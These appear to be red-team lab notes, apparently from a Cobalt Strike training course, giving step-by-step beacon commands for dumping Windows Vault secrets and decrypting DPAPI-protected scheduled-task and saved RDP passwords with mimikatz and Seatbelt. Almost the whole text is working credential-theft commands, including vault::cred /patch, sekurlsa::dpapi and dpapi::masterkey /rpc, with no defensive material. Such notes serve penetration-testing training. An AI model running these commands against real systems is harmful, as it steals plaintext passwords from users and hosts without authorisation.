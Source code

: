 # Data Protection API (DPAPI)

# Use mimikatz to dump secrets from windows vault

    beacon> mimikatz !vault::list
    beacon> mimikatz !vault::cred /patch

## Part 1: Enumerate stored credentials

Check if system has credentials stored in either web or windows vault

    beacon> run vaultcmd /list
    beacon> run vaultcmd /listcreds:"Windows Credentials" /all
    beacon> run vaultcmd /listcreds:"Web Credentials" /all
    beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault

# Part 2.1: Scheduled Task Credentials

# Part 2.1: Scheduled Task Credentials

1. Credentials for task scheduler are stored at below location in encrypted blob

        beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

2. Find the GUID of Master key associated with encrypted blob (F31...B6E)

        beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

3. Dump all the master keys and filter the one we need based on GUID identified in previous step

        beacon> mimikatz !sekurlsa::dpapi

4. Use the Encrypted Blob and Master Key to decrypt and extract plain text password

        beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:<masterkey>

# Part 2.2: Extracting stored RDP Password

1. Enumerate the location of encrypted credentials blob (Returns ID of Enc blob and GUID of Master Key)

        beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles

2. Verify the credential blob in users cred directory (Note enc blob ID)

        beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

3. Master key is stored in users Protect directory (Note GUID of master key matching with Seatbelt)

        beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104

4. Decrypt the master key (Need to be execute in context of user who owns the key, use @ modifier)

        beacon> mimikatz !sekurlsa::dpapi
        beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc

5. Use Master key to decrypt the credentials blob

        beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:<masterkey>
